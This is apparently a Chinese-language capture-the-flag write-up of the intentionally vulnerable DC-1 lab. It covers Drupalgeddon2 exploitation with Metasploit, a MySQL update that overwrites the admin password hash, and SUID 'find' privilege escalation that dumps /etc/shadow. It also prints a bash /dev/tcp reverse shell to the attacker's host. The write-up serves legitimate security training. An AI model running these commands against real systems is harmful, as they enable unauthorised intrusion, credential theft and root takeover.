








**靶机描述**:
```
DESCRIPTION
DC-1 is a purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.

It was designed to be a challenge for beginners, but just how easy it is will depend on your skills and knowledge, and your ability to learn.

To successfully complete this challenge, you will require Linux skills, familiarity with the Linux command line and experience with basic penetration testing tools, such as the tools that can be found on Kali Linux, or Parrot Security OS.

There are multiple ways of gaining root, however, I have included some flags which contain clues for beginners.

There are five flags in total, but the ultimate goal is to find and read the flag in root's home directory. You don't even need to be root to do this, however, you will require root privileges.

Depending on your skill level, you may be able to skip finding most of these flags and go straight for root.

Beginners may encounter challenges that they have never come across previously, but a Google search should be all that is required to obtain the information required to complete this challenge.
```

**搭环境**
别改为vmx-17 直接导入ova
注意设置改为NAT(默认桥接)

在DC打开的时候改设置 不用配网卡(也配不了)


只要改为NAT 就能扫到了!

kali 扫靶机ip:
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -sn 192.168.136.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-16 07:06 CST
Nmap scan report for 192.168.136.1
Host is up (0.00037s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.136.2
Host is up (0.00026s latency).
MAC Address: 00:50:56:EE:A2:E5 (VMware)
Nmap scan report for 192.168.136.152   <= here!!!
Host is up (0.00078s latency).
MAC Address: 00:0C:29:6C:26:58 (VMware)
Nmap scan report for 192.168.136.254
Host is up (0.00015s latency).
MAC Address: 00:50:56:E1:4C:E4 (VMware)
Nmap scan report for 192.168.136.146
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 28.04 seconds

```

192.168.136.152

靶机:





信息收集
`nmap -A 192.168.136.152`

```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# nmap -A 192.168.136.152  
Starting Nmap 7.91 ( https://nmap.org ) at 2024-04-16 07:09 CST
Nmap scan report for 192.168.136.152
Host is up (0.00059s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34835/tcp   status
|   100024  1          37807/tcp6  status
|   100024  1          45685/udp   status
|_  100024  1          49164/udp6  status
MAC Address: 00:0C:29:6C:26:58 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.2 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.59 ms 192.168.136.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.56 seconds

```

跟前几个靶机不同 这次扫出了很多"新"的信息

还是先从80端口的http网页入手

robots.txt
```
# Directories
Disallow: /includes/
Disallow: /misc/
Disallow: /modules/
Disallow: /profiles/
Disallow: /scripts/
Disallow: /themes/
# Files
Disallow: /CHANGELOG.txt
Disallow: /cron.php
Disallow: /INSTALL.mysql.txt
Disallow: /INSTALL.pgsql.txt
Disallow: /INSTALL.sqlite.txt
Disallow: /install.php
Disallow: /INSTALL.txt
Disallow: /LICENSE.txt
Disallow: /MAINTAINERS.txt
Disallow: /update.php
Disallow: /UPGRADE.txt
Disallow: /xmlrpc.php
# Paths (clean URLs)
Disallow: /admin/
Disallow: /comment/reply/
Disallow: /filter/tips/
Disallow: /node/add/
Disallow: /search/
Disallow: /user/register/
Disallow: /user/password/
Disallow: /user/login/
Disallow: /user/logout/
# Paths (no clean URLs)
Disallow: /?q=admin/
Disallow: /?q=comment/reply/
Disallow: /?q=filter/tips/
Disallow: /?q=node/add/
Disallow: /?q=search/
Disallow: /?q=user/password/
Disallow: /?q=user/register/
Disallow: /?q=user/login/
Disallow: /?q=user/logout/
```

kali可以用`whatweb`来收集网站信息
```
┌──(root💀kali2021)-[/home/kali2021/桌面]
└─# whatweb http://192.168.136.152:80
http://192.168.136.152:80 [200 OK] Apache[2.2.22], Content-Language[en], Country[RESERVED][ZZ], Drupal, HTTPServer[Debian Linux][Apache/2.2.22 (Debian)], IP[192.168.136.152], JQuery, MetaGenerator[Drupal 7 (http://drupal.org)], PHP[5.4.45-0+deb7u14], PasswordField[pass], Script[text/javascript], Title[Welcome to Drupal Site | Drupal Site], UncommonHeaders[x-generator], X-Powered-By[PHP/5.4.45-0+deb7u14]

```

信息收集发现是 Drupal
搜索相关漏洞 找到一些2018/2019的CVE
[CVE-2018-7600](https://blog.csdn.net/weixin_42742658/article/details/112479848)
[exp.py](./DC-1/exp.py)

`python3 exp.py http://192.168.136.152/`



查看**flag1.txt**
```
$ cat flag1.txt
Every good CMS needs a config file - and so do you.
```

emmm... 提示找config吗

换成msf来打吧 终端稳定一点
msf search 找对应漏洞
```
msf6 > search Drupal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank       Check  Description
   -  ----                                           ---------------  ----       -----  -----------
   0  exploit/unix/webapp/drupal_coder_exec          2016-07-13       excellent  Yes    Drupal CODER Module Remote Command Execution
   1  exploit/unix/webapp/drupal_drupalgeddon2       2018-03-28       excellent  Yes    Drupal Drupalgeddon 2 Forms API Property Injection
   2  exploit/multi/http/drupal_drupageddon          2014-10-15       excellent  No     Drupal HTTP Parameter Key/Value SQL Injection
   3  auxiliary/gather/drupal_openid_xxe             2012-10-17       normal     Yes    Drupal OpenID External Entity Injection
   4  exploit/unix/webapp/drupal_restws_exec         2016-07-13       excellent  Yes    Drupal RESTWS Module Remote PHP Code Execution
   5  exploit/unix/webapp/drupal_restws_unserialize  2019-02-20       normal     Yes    Drupal RESTful Web Services unserialize() RCE
   6  auxiliary/scanner/http/drupal_views_user_enum  2010-07-02       normal     Yes    Drupal Views Module Users Enumeration
   7  exploit/unix/webapp/php_xmlrpc_eval            2005-06-29       excellent  Yes    PHP XML-RPC Arbitrary Code Execution

```

`use exploit/unix/webapp/drupal_drupalgeddon2 `

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set rhost 192.168.136.152
rhost => 192.168.136.152
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.136.146:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (39282 bytes) to 192.168.136.152
[*] Meterpreter session 2 opened (192.168.136.146:4444 -> 192.168.136.152:51721) at 2024-04-16 08:09:03 +0800

meterpreter > 
shell

```

然后find找flag
有个细节 要进入根目录再 `find -name flag*` 不然只能找到flag1...

这就是为什么要msf的shell(交互式) python的只能打印回显不能cd这种操作

```
pwd          
/
find / -name flag*
/home/flag4
/home/flag4/flag4.txt
/var/www/flag1.txt
...
```

**flag4.txt**
```
cat /home/flag4/flag4.txt
Can you use this same method to find or access the flag in root?

Probably. But perhaps it's not that easy.  Or maybe it is?

```

emm...
还是从flag1的提示来吧 Google Drupal配置文件位置

```
find / -name settings.php
/var/www/sites/default/settings.php
```

**flag2**
```php
<?php

/**
 *
 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */

$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'dbuser',
      'password' => 'R0ck3t',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

$update_free_access = FALSE;

$drupal_hash_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';

ini_set('session.gc_probability', 1);
ini_set('session.gc_divisor', 100);

ini_set('session.gc_maxlifetime', 200000);

ini_set('session.cookie_lifetime', 2000000);

$conf['404_fast_paths_exclude'] = '/\/(?:styles)\//';
$conf['404_fast_paths'] = '/\.(?:txt|png|gif|jpe?g|css|js|ico|swf|flv|cgi|bat|pl|dll|exe|asp)$/i';
$conf['404_fast_html'] = '<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML+RDFa 1.0//EN" "http://www.w3.org/MarkUp/DTD/xhtml-rdfa-1.dtd"><html xmlns="http://www.w3.org/1999/xhtml"><head><title>404 Not Found</title></head><body><h1>Not Found</h1><p>The requested URL "@path" was not found on this server.</p></body></html>';

```

emmm 又是给的提示

可以看到给了数据库的信息
可以mysql连接?
`mysql -h主机地址 -u用户名 -p用户密码`

先python起一个交互shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

然后mysql连接

`mysql -h 127.0.0.1 -u dbuser -p`

```
meterpreter > shell
Process 4255 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@DC-1:/var/www$ mysql -h localhost -u dbuser -p    
mysql -h localhost -u dbuser -p
Enter password: R0ck3t

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 239
Server version: 5.5.60-0+deb7u1 (Debian)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 

```

接下来就是利用数据库来查/提权

正好熟悉一下数据库的命令
就用最简单的show

dabatabase: drupaldb

`select * from drupaldb.表名`
在users查到这个
```
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
| uid | name  | pass                                                    | mail              | theme | signature | signature_format | created    | access     | login      | status | timezone            | language | picture | init              | data |
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
|   0 |       |                                                         |                   |       |           | NULL             |          0 |          0 |          0 |      0 | NULL                |          |       0 |                   | NULL |
|   1 | admin | $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR | admin@example.com |       |           | NULL             | 1550581826 | 1550583852 | 1550582362 |      1 | Australia/Melbourne |          |       0 | admin@example.com | b:0; |
|   2 | Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       |           | filtered_html    | 1550581952 | 1550582225 | 1550582225 |      1 | Australia/Melbourne |          |       0 | fred@example.org  | b:0; |
|   3 | guest | $S$D/e.ub91oEQCcdh53JkdrlzIyCOFv13ogq91BRzIAzeUrS7E4umh | 114514@123.com    |       |           | filtered_html    | 1713224407 |          0 |          0 |      0 | Australia/Melbourne |          |       0 | 114514@123.com    | NULL |
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+

```

也就是我们可以更改admin的密码hash值? 前面也看到过salt

`$drupal_hash_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';`

接下来的思路应该是利用改数据库把admin密码的hash改为123456这种密码的hash
emmm 不会... 这长度可能是sha?

好吧看wp 发现还有个关键的 node 表

```
mysql> select * from drupaldb.node;
select * from drupaldb.node;
+-----+------+------+----------+-------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
| nid | vid  | type | language | title | uid | status | created    | changed    | comment | promote | sticky | tnid | translate |
+-----+------+------+----------+-------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
|   1 |    1 | page | und      | Main  |   2 |      1 | 1550582250 | 1550582250 |       0 |       0 |      0 |    0 |         0 |
|   2 |    2 | page | und      | flag3 |   1 |      0 | 1550582412 | 1550583860 |       0 |       0 |      0 |    0 |         0 |
+-----+------+------+----------+-------+-----+--------+------------+------------+---------+---------+--------+------+-----------+
2 rows in set (0.00 sec)

```

发现flag3且uid为1
也就是我们要看flag3需要admin权限

Q: 为什么要看**node**表?
A: 因为[drupal node机制](https://www.cnblogs.com/amw863/p/4551889.html)

回到上面的思路 伪造admin的密码hash 但我们不知道算法
记得前面有个`scripts`目录 回去看看

```
www-data@DC-1:/var/www$ ls scripts
ls scripts
code-clean.sh  drupal.sh            generate-d6-content.sh  run-tests.sh
cron-curl.sh   dump-database-d6.sh  generate-d7-content.sh  test.script
cron-lynx.sh   dump-database-d7.sh  password-hash.sh

```

**password-hash.sh** !
随便调用试试
```
ww-data@DC-1:/var/www$ php ./scripts/password-hash.sh 123 123
php ./scripts/password-hash.sh 123 123

password: 123           hash: $S$DmWyS2Ohz788NNv1XX4FI3P/goS.rL2SyQJN7wnewaezWL7GWmUv

password: 123           hash: $S$DelFWto.KwdCDs4ssqRl7n2eF/NFIP9ZR4fihVuz75fLbrXZjVbD

```

所以可以伪造了
```
password: 123456                hash: $S$D5gD3iWE12l3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d
```

接下来就是想办法**修改admin的hash**
`update drupaldb.users set pass="$S$D5gD3iWE12l3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d" where uid=1;`

```
mysql> update drupaldb.users set pass="$S$D5gD3iWE12l3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d" where uid=1;
<3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d" where uid=1;                     
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from drupaldb.users;
select * from drupaldb.users;
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
| uid | name  | pass                                                    | mail              | theme | signature | signature_format | created    | access     | login      | status | timezone            | language | picture | init              | data |
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
|   0 |       | $S$D5gD3iWE12l3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d |                   |       |           | NULL             |          0 |          0 |          0 |      0 | NULL                |          |       0 |                   | NULL |
|   1 | admin | $S$D5gD3iWE12l3mcG2nzHsuRpfblkdxoelL08bNkBFZZe6/sVogf0d | admin@example.com |       |           | NULL             | 1550581826 | 1550583852 | 1550582362 |      1 | Australia/Melbourne |          |       0 | admin@example.com | b:0; |
|   2 | Fred  | $S$DWGrxef6.D0cwB5Ts.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example.org  |       |           | filtered_html    | 1550581952 | 1550582225 | 1550582225 |      1 | Australia/Melbourne |          |       0 | fred@example.org  | b:0; |
|   3 | guest | $S$D/e.ub91oEQCcdh53JkdrlzIyCOFv13ogq91BRzIAzeUrS7E4umh | 114514@123.com    |       |           | filtered_html    | 1713224407 |          0 |          0 |      0 | Australia/Melbourne |          |       0 | 114514@123.com    | NULL |
+-----+-------+---------------------------------------------------------+-------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------------+----------+---------+-------------------+------+
4 rows in set (0.00 sec)

```

mysql修改成功 接下来试试能不能登陆
成功登陆!



在DashBoard看到flag3
**flag3**
```
Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.
```

提示用find命令执行?

Linux下find命令执行:


根据提示的`PERM` 用SUID提权
```
$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/mount
/bin/ping
/bin/su
/bin/ping6
/bin/umount
/usr/bin/at
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs

```

发现find有权限! 而且提示我们看/etc/shadow
这么写
`/usr/bin/find / -name shadow -exec cat {} \;`
成功读取

```
www-data@DC-1:/$ `www-data@DC-1:/$ /usr/bin/find / -name shadow -exec cat {} \;`
<DC-1:/$ /usr/bin/find / -name shadow -exec cat {} \;`                       
bash: www-data@DC-1:/$: No such file or directory
www-data@DC-1:/$ /usr/bin/find / -name shadow -exec cat {} \;
/usr/bin/find / -name shadow -exec cat {} \;
root:$6$rhe3rFqk$NwHzwJ4H7abOFOM67.Avwl3j8c05rDVPqTIvWg8k3yWe99pivz/96.K7IqPlbBCmzpokVmn13ZhVyQGrQ4phd/:17955:0:99999:7:::
daemon:*:17946:0:99999:7:::
bin:*:17946:0:99999:7:::
sys:*:17946:0:99999:7:::
sync:*:17946:0:99999:7:::
games:*:17946:0:99999:7:::
man:*:17946:0:99999:7:::
lp:*:17946:0:99999:7:::
mail:*:17946:0:99999:7:::
news:*:17946:0:99999:7:::
uucp:*:17946:0:99999:7:::
proxy:*:17946:0:99999:7:::
www-data:*:17946:0:99999:7:::
backup:*:17946:0:99999:7:::
list:*:17946:0:99999:7:::
irc:*:17946:0:99999:7:::
gnats:*:17946:0:99999:7:::
nobody:*:17946:0:99999:7:::
libuuid:!:17946:0:99999:7:::
Debian-exim:!:17946:0:99999:7:::
statd:*:17946:0:99999:7:::
messagebus:*:17946:0:99999:7:::
sshd:*:17946:0:99999:7:::
mysql:!:17946:0:99999:7:::
flag4:$6$Nk47pS8q$vTXHYXBFqOoZERNGFThbnZfi5LN0ucGZe05VMtMuIFyqYzY/eVbPNMZ7lpfRVc0BYrQ0brAhJoEzoEWCKxVW80:17946:0:99999:7:::
www-data@DC-1:/$ 

```

就读到**flag4**了
了解一下 **/etc/passwd**

每行的用户信息有9个字段
```
用户名：加密密码：最后一次修改时间：最小修改时间间隔：密码有效期：密码需要变更前的警告天数：密码过期后的宽限时间：账号失效时间：保留字段
```

知道密码hash也不能登root的说

好的 忽略了find还能配合提权 : 反弹shell
我们直接利用find的-exec执行命令即可

打**反弹shell**
[find提权与反弹shell](https://blog.csdn.net/qq_40898302/article/details/124316982)
靶机: `find /etc/passwd -exec bash -ip >& /dev/tcp/192.168.136.146/9999 0>&1 \;`
kali: `nc -lvvp 9999`
成功反弹shell!



root权限后就指哪儿打哪儿了
直接全局找flag
`find / -name *flag*`
```
bash-4.2# find / -name *flag*
find / -name *flag*
/home/flag4
/home/flag4/flag4.txt
/var/www/flag1.txt
/var/lib/mysql/debian-5.5.flag
/root/thefinalflag.txt    <=here
```

找到**thefinalflag**
```
bash-4.2# cat /root/the*
cat /root/the*
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7

```

Got It!

---
---

目前为止做的最爽的一个Machine!
像Mysql那些命令 find提权等 都是自己查资料摸索
最后拿到root的时候的感觉太棒了！

找时间把Mysql这些总结一下 冲!